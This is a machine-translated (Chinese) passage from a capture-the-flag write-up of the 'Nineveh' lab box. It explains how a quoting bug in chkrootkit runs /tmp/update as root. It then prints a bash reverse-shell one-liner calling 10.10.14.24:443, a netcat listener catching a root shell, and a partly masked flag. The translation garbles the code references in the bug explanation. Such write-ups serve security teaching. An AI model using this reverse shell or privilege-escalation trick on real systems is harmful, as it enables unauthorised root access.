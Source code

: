 
该文件说，由于以下循环，由于拼写错误，中的任何文件都将运行：`txt``$SLAPPER_FILES`

       for i in ${SLAPPER_FILES}; do
          if [ -f ${i} ]; then
             file_port=$file_port $i
             STATUS=1
          fi
    

预期的行为是设置为等于 。但是因为缺少了，所以会将其视为设置然后运行。`$file_port``"$file_port $i"``""``bash``file_port=$file_port``$i`

`$SLAPPER_FILES`是提前几行设置的：

       SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
       SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
       ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
    

### 壳

我将编写一个简单的反向 shell 并使其可执行：`/tmp/update`

    amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1'
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.24/443 0>&1
    amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1' > update
    amrois@nineveh:/tmp$ chmod +x update
    

下次运行时，我得到一个外壳：`chkroot`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:44006.
    bash: cannot set terminal process group (11510): Inappropriate ioctl for device
    bash: no job control in this shell
    root@nineveh:~#
    

我可以抓住旗帜：

    root@nineveh:~# cat root.txt
    8a2b4956************************
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html)